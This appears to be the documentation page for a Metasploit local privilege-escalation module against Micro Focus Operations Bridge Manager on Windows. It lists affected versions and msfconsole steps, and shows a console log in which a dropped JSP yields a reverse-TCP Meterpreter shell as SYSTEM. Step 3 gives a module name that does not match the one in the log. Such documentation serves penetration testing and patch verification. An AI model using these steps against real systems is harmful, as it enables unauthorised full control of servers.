 ## Vulnerable Application

This module exploits an incorrectly permissioned folder in Micro Focus Operations Bridge Manager.

An unprivileged user (such as Guest) can drop a JSP file in an exploded WAR directory and then access it without authentication by making a request to the OBM server.
This will result in automatic code execution as SYSTEM. This module has been tested on OBM 2020.05, but it should work out of the box on earlier versions too.

According to Micro Focus the vulnerable versions are:

* Operations Bridge Manager versions: 2020.05, 2019.11, 2019.05, 2018.11, 2018.05, versions 10.6x and 10.1x and older versions
* Operations Bridge (containerized) versions: 2019.11, 2019.08, 2019.05, 2018.11, 2018.08, 2018.05, 2018.02, 2017.11

Installation docs are available at:

* https://docs.microfocus.com/itom/Operations_Bridge_Manager:2020.05

Vulnerable versions of the software can be downloaded from Micro Focus website by requesting a demo.

Only the Windows version of the product is affected.

All details about these vulnerabilities can be obtained from the advisory:

* https://github.com/pedrib/PoC/blob/master/advisories/Micro_Focus/Micro_Focus_OBM.md

## Verification Steps

1. Install the application
2. Start msfconsole
3. `use exploit/windows/local/microfocus_operations_privesc.rb`
4. `set session SESSION`
5. `set lhost YOUR_IP`
6. `run`
7. You should get a shell.

## Scenarios

```
msf6 exploit(multi/handler) > use exploit/windows/local/microfocus_obm_dir_perm
s
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/microfocus_obm_dir_perms) > set lhost 10.0.0.1
lhost => 10.0.0.1
msf6 exploit(windows/local/microfocus_obm_dir_perms) > set lport 4499
lport => 4499
msf6 exploit(windows/local/microfocus_obm_dir_perms) > set session 3
session => 3
msf6 exploit(windows/local/microfocus_obm_dir_perms) > run

[*] Started reverse TCP handler on 10.0.0.1:4499
[*] JSP dropped, calling it @ https://127.0.0.1:443/topaz/LB_Verify.jsp
[*] Sending stage (175174 bytes) to 10.0.0.206
[*] Meterpreter session 4 opened (10.0.0.1:4499 -> 10.0.0.206:65068) at 2021-01-29 16:00:43 +0700

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
